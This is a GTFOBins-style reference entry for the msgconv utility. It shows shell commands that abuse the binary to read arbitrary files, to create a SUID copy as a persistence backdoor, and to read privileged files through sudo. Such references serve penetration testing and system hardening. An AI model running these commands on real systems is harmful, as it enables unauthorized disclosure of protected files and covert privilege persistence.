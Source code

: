 # GTFOBin: msgconv

The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
msgconv -P $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which msgconv) .

LFILE=file_to_read
./msgconv -P $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo msgconv -P $LFILE
```